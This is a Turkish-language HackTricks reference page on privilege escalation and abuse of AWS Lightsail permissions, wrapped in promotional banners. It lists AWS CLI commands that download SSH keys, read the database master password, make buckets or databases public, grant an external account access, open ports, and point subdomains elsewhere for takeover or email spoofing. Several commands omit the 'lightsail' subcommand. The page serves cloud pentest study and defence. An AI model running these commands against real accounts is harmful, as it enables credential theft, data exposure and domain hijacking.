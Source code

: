 # AWS - Lightsail Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lightsail

Lightsail hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail'in **kullanıcıya ait IAM rollerini kullanmadığını** ancak AWS yönetilen bir hesabına ait olduğunu belirtmek önemlidir, bu nedenle bu hizmeti privesc için kötüye kullanamazsınız. Ancak, bu hizmette **kod, API anahtarları ve veritabanı bilgileri** gibi **hassas veriler** bulunabilir.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklere erişmek için SSH anahtarlarını almanıza olanak tanır:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklere erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:CreateBucketAccessKey`

Bu izin, size kovaya erişim anahtarı almanıza olanak tanır:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Kova içinde hassas bilgileri bulma.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişim için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim için şifreyi değiştirmenize olanak tanır:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Eğer veritabanı kamuya açık değilse, bu izinlerle kamuya açık hale getirebilirsiniz

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potansiyel Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları İnternete açmaya olanak tanır.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları İnternet'e açmaya olanak tanır. Bu çağrının, belirtilmeyen herhangi bir açılan portu kapatacağını unutmayın.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, bir örneğe ek kimlik bilgileri olmadan bir kovaya erişim verme imkanı tanır.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına bucket'lar üzerinde okuma erişimi verebilir veya bucket'ları herkes için kamuya açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Olası Etki:** Özel ECR'den hassas bilgiler elde etme

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da kendisine alan adından e-posta sahteciliği yapma izni veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alan adını ele geçirmek

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-posta sahtekarlığı yapmasına izin veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alanın ele geçirilmesi

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
